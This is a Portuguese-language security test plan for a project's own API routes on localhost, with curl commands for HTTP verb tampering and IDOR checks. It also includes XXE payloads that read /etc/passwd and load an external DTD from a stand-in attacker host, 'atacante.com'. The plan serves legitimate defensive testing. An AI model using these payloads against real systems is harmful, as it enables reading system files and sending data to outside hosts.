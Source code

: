 # Relatório 2 – Roteiro de Testes de Segurança em APIs

## Introdução
Este relatório apresenta um roteiro detalhado para a realização de testes de segurança nas principais rotas de API do projeto, com foco em três tipos de vulnerabilidades: HTTP Verb Tampering, IDOR (Insecure Direct Object Reference) e XXE (XML External Entity). As recomendações e observações de segurança também estão incluídas para garantir a condução responsável dos testes.

## Principais Rotas de API
O projeto possui as seguintes rotas de API principais:
- `/api/v1/rasa-conversations/`
- `/api/v1/opinion-component/`
- `/api/v1/conversations/`
- `/api/v1/comments/`
- `/api/v1/votes/`
- `/api/v1/clusterizations/`
- `/api/v1/profiles/`
- `/api/v1/boards/`
- `/api/v1/users/`
- `/api/v1/` (autenticação)

## 1. HTTP Verb Tampering
Teste o comportamento dos endpoints utilizando diferentes métodos HTTP:

```bash
# Teste de Autenticação
curl -X OPTIONS http://localhost:8000/api/v1/token/
curl -X PUT http://localhost:8000/api/v1/token/
curl -X DELETE http://localhost:8000/api/v1/token/
curl -X PATCH http://localhost:8000/api/v1/token/
curl -X HEAD http://localhost:8000/api/v1/token/

# Teste de Usuários
curl -X OPTIONS http://localhost:8000/api/v1/users/
curl -X PUT http://localhost:8000/api/v1/users/1/
curl -X DELETE http://localhost:8000/api/v1/users/1/
curl -X PATCH http://localhost:8000/api/v1/users/1/
curl -X HEAD http://localhost:8000/api/v1/users/1/

# Teste de Perfis
curl -X OPTIONS http://localhost:8000/api/v1/profiles/
curl -X PUT http://localhost:8000/api/v1/profiles/1/
curl -X DELETE http://localhost:8000/api/v1/profiles/1/
curl -X PATCH http://localhost:8000/api/v1/profiles/1/
curl -X HEAD http://localhost:8000/api/v1/profiles/1/

# Teste de Conversas
curl -X OPTIONS http://localhost:8000/api/v1/conversations/
curl -X PUT http://localhost:8000/api/v1/conversations/1/
curl -X DELETE http://localhost:8000/api/v1/conversations/1/
curl -X PATCH http://localhost:8000/api/v1/conversations/1/
curl -X HEAD http://localhost:8000/api/v1/conversations/1/
```

## 2. IDOR (Insecure Direct Object Reference)
Teste o acesso e modificação de recursos de outros usuários:

```bash
# Teste de Usuários
curl -X GET http://localhost:8000/api/v1/users/2/ -H "Authorization: Bearer seu_token"

# Teste de Perfis
curl -X PUT http://localhost:8000/api/v1/profiles/2/ \
  -H "Authorization: Bearer seu_token" \
  -H "Content-Type: application/json" \
  -d '{"phone_number": "123456789"}'

# Teste de Conversas
curl -X GET http://localhost:8000/api/v1/conversations/2/ -H "Authorization: Bearer seu_token"

# Teste de Comentários
curl -X PUT http://localhost:8000/api/v1/comments/2/ \
  -H "Authorization: Bearer seu_token" \
  -H "Content-Type: application/json" \
  -d '{"content": "comentário modificado"}'

# Teste de Votos
curl -X PUT http://localhost:8000/api/v1/votes/2/ \
  -H "Authorization: Bearer seu_token" \
  -H "Content-Type: application/json" \
  -d '{"choice": "agree"}'

# Teste de Clusterizações
curl -X GET http://localhost:8000/api/v1/clusterizations/2/ -H "Authorization: Bearer seu_token"

# Teste de Quadros
curl -X PUT http://localhost:8000/api/v1/boards/2/ \
  -H "Authorization: Bearer seu_token" \
  -H "Content-Type: application/json" \
  -d '{"title": "quadro modificado"}'
```

## 3. XXE (XML External Entity)
Teste endpoints que aceitam XML para identificar possíveis vulnerabilidades XXE:

```bash
# Criar arquivo XML malicioso
cat > payload.xml << 'EOF'
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
EOF

# Teste de Conversas
curl -X POST http://localhost:8000/api/v1/conversations/ \
  -H "Authorization: Bearer seu_token" \
  -H "Content-Type: application/xml" \
  -d @payload.xml

# Teste de Comentários
curl -X POST http://localhost:8000/api/v1/comments/ \
  -H "Authorization: Bearer seu_token" \
  -H "Content-Type: application/xml" \
  -d @payload.xml

# Criar arquivo XML com referência a entidade externa
cat > external.xml << 'EOF'
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://atacante.com/evil.dtd" >
%xxe;]>
<foo>&evil;</foo>
EOF

# Teste de Parameter Pollution
curl -X POST http://localhost:8000/api/v1/conversations/ \
  -H "Authorization: Bearer seu_token" \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>'
```
